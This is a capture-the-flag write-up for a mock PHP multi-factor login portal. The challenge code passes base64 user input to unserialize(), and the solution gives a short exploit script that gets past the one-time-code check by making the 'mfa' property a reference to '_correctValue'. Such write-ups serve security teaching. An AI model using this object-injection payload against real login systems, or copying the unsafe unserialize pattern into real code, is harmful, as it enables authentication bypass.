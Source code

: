 ```yaml
---
description: PHP object injection (deserialization vulnerability)
---
```


# Corporate MFA

## Problem

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.

{% file src="../../.gitbook/assets/corpmfa.tar.gz" %}

## Source Code

`index.php`:

```php
<?php

include 'class/User.php';

if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);

	// log access
	//Logger::log(Logger::SENSITIVE, 'Login attempt: ' . $loginAttempt);

	// Hand over to federation login
	// TODO currently just a mock up
	// TODO encrypt information to avoid loos of confidentiality
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	catch (Exception $e)
	{
		$notification->type = 'danger';
		$notification->text = $e->getMessage();
	}
}

include 'template/home.html';
```

`User.php`:

```php
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

## Solution

From analysing the source code, we can gather the following information:

* Username: Hardcoded
* Password: From the first example here: [https://www.php.net/manual/en/function.password-verify.php](https://www.php.net/manual/en/function.password-verify.php)
* MFA: Vulnerable to PHP object injection (`unserialize()` vulnerability)

The trick here is to initialize the `mfa` attribute as a **reference** to the `_correctValue` attribute (using the ampersand operator &). This will allow us to bypass the MFA check, which checks `mfa` against a randomly-generated `_correctValue`:

```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

The exploit script:

```php
<?php
    include "class/User.php";

    $loginAttempt=new stdClass();
    $loginAttempt->username = 'D0loresH4ze';
    $loginAttempt->password = 'rasmuslerdorf';
    $loginAttempt->_correctValue = NULL;
    $loginAttempt->mfa = &$loginAttempt->_correctValue;

    $userData = serialize($loginAttempt);
    $encoded = base64_encode($userData);
    var_dump($encoded);

    $user = new User(base64_decode($encoded));
    var_dump($user);
    $user->verify();
?>
```
